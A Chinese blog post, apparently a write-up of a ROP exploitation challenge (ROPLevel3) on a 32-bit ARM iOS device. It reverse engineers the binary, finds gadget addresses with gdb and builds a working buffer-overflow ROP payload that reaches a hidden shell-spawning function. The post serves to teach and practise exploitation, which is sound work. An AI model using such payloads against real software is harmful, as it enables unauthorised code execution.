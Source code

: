 ```yaml
---
layout: post
title: ROP Exploit实验 2
slug: ROP Exploit实验 2
category: iOS Exploitation
published: true
---
```



### 前言

本实验较上一篇，漏洞利用的根本原理没变，只是流程复杂了点。本实验使用的是一个不开源的程序，可以在[这里下载](https://github.com/Billy-Ellis/Exploit-Challenges/blob/master/ROPLevel3.zip)。环境依然是iOS 7.0.1的iPhone4。


### 窥探程序

先直接运行下这个程序看下它做了些什么:

<!-- more -->

```
Jins:~/Code root# ./roplevel3
Welcome to ROPLevel3 by @bellis1000

0Select an option:
[1] Function
[2] Function (internal)
[3] Exit
1

Hello world! Welcome to a function - an function that does absolutely nothing!

Select an option:
[1] Function
[2] Function (internal)
[3] Exit
2

You do not have permission to launch this function.

Select an option:
[1] Function
[2] Function (internal)
[3] Exit
3
Jins:~/Code root#
```

程序有三个选项，1只是输出一句欢迎语，2是一个内部功能`(internal)`，选择后告诉我没有权限执行这个函数。我们的目的就是要使用这个"需要权限"的函数。


没有源码那我们打开**Hopper**载入这个程序看下。

载入完成选择CFG MODE(Control Flow Graphic)看下流程图。程序整体是由一个`while`循环控制着输入输出。
左下角有这么一块：
![IMG](https://ws1.sinaimg.cn/large/006tKfTcly1fmwia9n6y0j30xc0bcacq.jpg)

这里有调用`scanf`函数，下面还有一句`bl  _validate`，应该是一个校验函数，双击进入这段函数的执行流程。我截取了主要的一块：

![IMG](https://ws4.sinaimg.cn/large/006tKfTcly1fmwijyxd0vj30y00qo0xd.jpg)

主要流程就是比较输入的字符串，`loc_bc4c`这块会和字符串2比较，如果相等，则会把`0xc030`和`0xbf2d`的值作比较，双击这两个地址可以看到存储的值都是0。`0xc030 `地址保存的是一个常量名为`_internal_mode`，程序执行时是会打印这个值的：

```
Jins:~/Code root# ./roplevel3
Welcome to ROPLevel3 by @bellis1000

0Select an option:
...

```

`Select an option:`前面有个0。`_internal_mode`和0比较结果相等后就会打印**You do not have permission to launch this function.**

有种方法就是直接修改程序，将`_internal_mode`的值改成非0，但这不是本文的目的，我们的目的是要在运行时修改掉其中一个值，来绕过字符串的判断。

在左边栏的函数中我们还可以看到这个程序的作者准备了两个必须的工具函数：`gadget`和`write_anywhere`。这两个函数的指令如下:

![IMG](https://ws2.sinaimg.cn/large/006tKfTcly1fmwjxonkpyj30w00eign8.jpg)

### 思路

程序已经大致了解了一遍，`scanf`函数仍然是我们用来构造栈溢出的函数。假设我们想在运行时修改`_internal_mode`的值，如何修改，`write_anywhere`似乎能帮上忙，它有一行代码可以对`r1`地址的值进行赋值：

```
0000bce0         str        r0, [r1]
```
那么`r0`和`r1`的值如何被赋予我们想要的内容。巧了么这不是，`gadget`函数就能做到:

```
0000bcec         pop        {r0, r1, pc}
```

有了这些条件，我们先理一下期望的执行流程：输入字符串后，执行`gadget`函数，将栈上三个4字节的数据分别弹入`r0 r1 pc`，然后再调用`write_anywhere`函数，将`r0`的值赋给`r1`保存的地址中的值。
最后我们还需要回到`main`函数，因为之前的步骤只是修改了某个值，最后我们只有输入2后才会进入内部函数。

所以最终的字符串样式应该是: **任意字符串+gadget地址+非零值+internal_mode地址+write_anywhere地址+任意字符串+main函数地址**

### Exploit

好，开始构造我们的字符串。
第一个步骤还是一样的，输入一个固定格式的字符串，看看崩溃日志该从哪里下手。

```
Welcome to ROPLevel3 by @bellis1000

0Select an option:
[1] Function
[2] Function (internal)
[3] Exit
AAAABBBBCCCCDDDDEEEEFFFFGGGG

Invalid choice.

Segmentation fault: 11

...
...

Unknown thread crashed with ARM Thread State (32-bit):
    r0: 0x00000000    r1: 0x00000400      r2: 0x00000500      r3: 0x00002860
    r4: 0x00000000    r5: 0x00000000      r6: 0x00000000      r7: 0x45454545
    r8: 0x27dff8a0    r9: 0x00000001     r10: 0x00000000     r11: 0x00000000
    ip: 0x3d834c98    sp: 0x27dff8a0      lr: 0x0000bcc8      pc: 0x46464644
  cpsr: 0x20000010

```
`PC`的值被改成了`FFFF`。

几个关键函数的地址你可以在Hopper里看到这些函数地址，也可以通过GDB来查看。

```
(gdb) disas gadget
Dump of assembler code for function gadget:
0x0000bcec <gadget+0>:  03 80 bd e8                   pop	{r0, r1, pc}
0x0000bcf0 <gadget+4>:  1e ff 2f e1                   bx	lr
End of assembler dump.
(gdb) disas write_anywhere
Dump of assembler code for function write_anywhere:
0x0000bcdc <write_anywhere+0>:  05 60 a0 e1                   mov	r6, r5
0x0000bce0 <write_anywhere+4>:  00 00 81 e5                   str	r0, [r1]
0x0000bce4 <write_anywhere+8>:  80 80 bd e8                   pop	{r7, pc}
0x0000bce8 <write_anywhere+12>:  1e ff 2f e1                   bx	lr
End of assembler dump.
(gdb) disas main
Dump of assembler code for function main:
0x0000bcf4 <main+0>:  80 40 2d e9                   push	{r7, lr}
```

注意`write_anywhere `函数中的第一条指令是我们用不到的，所以第二条指令地址才用于我们的字符串。

最终字符串就应该是:

```
AAAABBBBCCCCDDDDEEEE\xec\xbc\x00\x00AAAA\x30\xc0\x00\x00\xe0\xbc\x00\x00AAAA\xf4\xbc\x00\x00
```

将它灌入程序试下先：

```
Jins:~/Code root# printf "AAAABBBBCCCCDDDDEEEE\xec\xbc\x00\x00AAAA\x30\xc0\x00\x00\xe0\xbc\x00\x00AAAA\xf4\xbc\x00\x00" | ./roplevel3

```
程序貌似进入死循环了，一直在输出相同的内容：

```
Select an option:
[1] Function
[2] Function (internal)
[3] Exit

Invalid choice.

Select an option:
[1] Function
[2] Function (internal)
[3] Exit

Invalid choice.

...
...

```

这里需要用到一个小技巧，使用`cat`命令后面不带参数，来中断输入，并等待用户输入。

```
Jins:~/Code root# (printf "AAAABBBBCCCCDDDDEEEE\xec\xbc\x00\x00AAAA\x30\xc0\x00\x00\xe0\xbc\x00\x00AAAA\xf4\xbc\x00\x00"; cat) | ./roplevel3
Welcome to ROPLevel3 by @bellis1000

0Select an option:
[1] Function
[2] Function (internal)
[3] Exit
1

Invalid choice.

Welcome to ROPLevel3 by @bellis1000

AAAASelect an option:
[1] Function
[2] Function (internal)
[3] Exit

```

可以看到已经`internal_mode`变成AAAA了，我们选择2试试：

```
2

Welcome to a more interesting function with developer-only functionality ;P
What would you like to do?
[1] Touch a file
[2] Spawn a shell
[3] Quit function

```
进入内部的函数了，按1会在`/`下生成一个`created_by_roplevel3`文件，2则可以让你执行shell命令。

![IMG](https://ws2.sinaimg.cn/large/006tKfTcly1fmwmo7ph6zj30we08sq3u.jpg)
`ls`命令执行成功！

### 总结

实验是比较简单的，分享出来，希望能给和我一样的新手一点启发吧。以上。

参考：
[《Beginner’s Guide to Exploitation on ARM》](http://zygosec.com/Products/)  作者：[@bellis1000](https://twitter.com/bellis1000)